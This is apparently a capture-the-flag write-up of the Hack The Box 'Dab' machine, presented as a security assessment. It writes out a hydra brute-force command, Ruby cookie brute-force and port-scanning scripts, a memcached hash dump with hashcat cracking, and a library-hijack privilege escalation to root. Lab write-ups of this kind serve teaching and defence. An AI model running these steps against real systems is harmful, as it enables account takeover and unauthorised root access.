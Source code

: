 ```yaml
---
layout: post
title: Hack The Box DAB Writeup Security Assessment
description: Hack the box 'DAB' writeup
fullview: true
---
```


# Introduction to the target.

Here we present a writeup of the "Dab" server and the applications it hosts. As we walk through each issue identified, we'll recommend a suitable mitigation against exploitation. A quick review of open services gives us a few targets.

## FTP
The ftp service accepts anonymous logons appears to have the single purpose of serving the organisation logo.

<amp-img alt="Dab logo"
    src="/assets/images/dab.jpg"
    height="680"
    width="733"
    layout="responsive"
    >
</amp-img>

### Recommendation
Although no significant issue is currently found here, in order to reduce attack surface, this service should be considered for removal.

## Web 

The web application service initially confronts a viewer with a username/password prompt. By testing several passwords, it can be identified that there is no account lockout or rate limiting in place, leading to an obvious potential for brute forcing. The following hydra script has been designed for the site in question:

```

hydra -l admin -P /usr/share/wordlists/rockyou.txt <address> http-post-form "/login:password=^PASS^&username=^USER^:failed"
```

It takes just a few minutes to identify a valid logon, and it should be stressed that the identified credentials meet strict password complexity policies. That is, it contained upper case, lower case, and numeric characters. Accordingly, such policies are not the solution to this type of problem.

## Developers console

The second service to review is the developer's console, on port 8080. This service utilises a more complex authentication system. The below custom code was built from reviewing browser interactions with the site, and will similarly brute force a valid credentials.

```
#!/usr/bin/env ruby
#
require 'httpclient'
require 'httpclient/webagent-cookie'

URL = URI.parse "http://SERVICE:8080/"

def win(password)
  puts "Won with #{password}"
  exit
end

File.open '/usr/share/wordlists/rockyou.txt' do |f|
  f.each_line do |password|
    cookie = WebAgent::Cookie.new
    cookie.name = "password"
    cookie.value = password.chomp
    cookie.url = URL

    client = HTTPClient.new
    client.cookie_manager.add cookie
    response = client.get URL

    puts "Failed password '#{password.chomp}'"
    win(password) unless response.body.match(/Access denied/)
  end
end
```

### Recommendations
Rather than review credentials systems, the developer console could consider alternate authentication mechanisms. These could include requiring VPN access, or IP based whitelisting in addition to the existing solution.

## Utilising the developer console
The developer console can be utilised to connect to an arbitrary local port. The following script has been developed to enumerate all local services by abusing this functionality of the developer's console. This identifies access to several ports not accessible from the outside world.

```
#!/usr/bin/env ruby
#
require 'httpclient'
require 'httpclient/webagent-cookie'

URL = URI.parse "http://SERVER:8080/"

def win(port)
  puts "Won with #{port}"
end

cookie = WebAgent::Cookie.new
cookie.name = "password"
cookie.value = VALUE
cookie.url = URL

1.upto TOP do |port|

  client = HTTPClient.new
  client.cookie_manager.add cookie
  response = client.get URI.parse "http://SERVER:8080/socket?port=#{port}&cmd=test"

  puts "Failed port '#{port}'"
  win(port) unless response.body.match(/500 Internal/)
end

```

The capability is not seen as a vulnerability in the developer's console, but rather as an indication the console itself requires better access control.

## Extracting a password list

The developer's console identifies a memcached service running, and accepting raw string data from that console. The following URL can be utilised to dump available cache information:

http://SERVER:8080/socket?port=11211&cmd=stats+items

[Further information regarding the memcache protocol can be reviewed here.](https://wincent.com/wiki/Testing_memcached_with_telnet)

With this background, the below script can be utilised to dump cached passwords. It is required to manually attempt to logon to the console shortly before running this script.

```
#!/usr/bin/env ruby
#
require 'json'
list = File.read "userlist.json"

listj = JSON.parse(list)

listj.each_pair do |user, password|
  puts "#{user}:#{password}"
end
```

This should dump 495 username/hashed password combinations.

    hashcat64 --show dab.txt rockyou -m 0 --username

Allows for a relatively quick brute force attack on the dumped data, supplying 12 valid user credentials. Once of these is a valid SSH user.

## Privilege Escalation
Enough enumerating various paths will lead you to a SUID root binary named 'myexc'. Running it looks like this:

```
myexec
Enter password:
```

Attempting to copy the binary offsite to debug will inform you a library is required, which we can easily find:

```
$ find /usr -name libseclogin*
/usr/lib/libseclogin.so
/usr/src/libseclogin
genevieve@dab:~$ ls /usr/src/libseclogin/
seclogin.h
genevieve@dab:~$ cat /usr/src/libseclogin/seclogin.h
#include<stdio.h>
extern unsigned int seclogin();
```

ltrace happily tells us the password required to proceed.

```
 ltrace myexec
__libc_start_main(0x400836, 1, 0x7fff4a651bc8, 0x4008f0 <unfinished ...>
printf("Enter password: ")                      = 16
__isoc99_scanf(0x400985, 0x7fff4a651a90, 0x7f491a4c5780, 16Enter password: atest
) = 1
strcmp("s3cur3l0g1n", "atest")                  = 18
puts("Invalid password\n"Invalid password

)                      = 18
+++ exited (status 1) +++

```

Let's use that and see what the binary has in store for us. Note, saw above what seclogin() looks like and how exactly it responds.

```

genevieve@dab:~$ myexec
Enter password: s3cur3l0g1n
Password is correct

seclogin() called
TODO: Placeholder for now, function not implemented yet

```

The attacker really should be blocked at this point. Utilising an external library isn't a vulnerability on a SUID binary, since the usual LD\_PRELOAD tricks are ignored by the OS. In fact, the only place a preloaded library is accepted from is the locations defined under /etc/ld/so.conf.d. What do we see here however?

```
 cat /etc/ld.so.conf.d/test.conf
/tmp
```

At this point, we have a valid preload path, and a function we know how to call. Let's build and run a shell:

```
mine.c: In function ‘seclogin’:
mine.c:9:1: warning: control reaches end of non-void function [-Wreturn-type]
 }
 ^
genevieve@dab:~$ myexec
Enter password: s3cur3l0g1n
Password is correct

$ whoami
genevieve
$ id
uid=1000(genevieve) gid=0(root) groups=0(root),1000(genevieve)
```

And with root access, the attacker has full control of the machine. Our recommendation in response is to move development projects off the production servers.
